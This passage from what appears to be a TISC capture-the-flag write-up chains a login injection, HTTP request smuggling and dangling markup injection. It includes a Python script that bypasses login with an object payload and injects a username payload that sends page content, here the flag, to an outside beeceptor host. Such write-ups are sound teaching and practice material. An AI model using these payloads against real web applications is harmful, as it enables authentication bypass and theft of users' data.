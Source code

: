 And success! I can see the a request being triggered and the query parameter in my `beeceptor` endpoint contains the exfiltrated response to the `GET /token?token=<generated_token>` endpoint as follows:

```json
{
  " asks for your token, you can give them this token: TISC{a:q:a:c:n:s:w:g:o:4}.</div><form action": ""
}
```

Let's make a script and automate this part!

```python
import requests
import json

url = "http://localhost"
login_endpoint = f"{url}/login"
token_endpoint = f"{url}/token"
verify_endpoint = f"{url}/verify"

login_payload = {"email": {"email":1}, "password": {"password":1}}

r_login = requests.post(login_endpoint, json=login_payload)

cookie = ""

for c in r_login.cookies:
    if c.name == "connect.sid":
        cookie = f"{c.name}={c.value}"

headers = {"Cookie": cookie}
token_payload = {"username":"\"/><img src=\"https://test-dangling-markup.free.beeceptor.com?"}
r_token = requests.post(token_endpoint, json=token_payload, headers=headers)
print(r_token.json().get("token"))
```

## Putting it all together

In the above sections we have demonstrated the following vulnerabilities:
- An SQL Injection through improper type checking in `POST /login`
- HTTP Request Smuggling to bypass ATS proxy, thus allowing a request to `POST /do-report`
- A Dangling Markup Injection through `POST /token` and reflected in `GET /verify?token=<token>`

Our attack pattern would involve the following:
1. Retrieve an authentication cookie by exploiting the SQLi vulnerability
2. Generate a token, injecting a dangling markup injection payload through the `username` parameter.
3. Exploiting the HTTP Request Smuggling, make a request to the `POST /do-report` endpoint and pass in the `url` parameter the `GET /verify?token=<token_generated_in_step_2>`.

Let's go ahead and automate the whole process with a script:
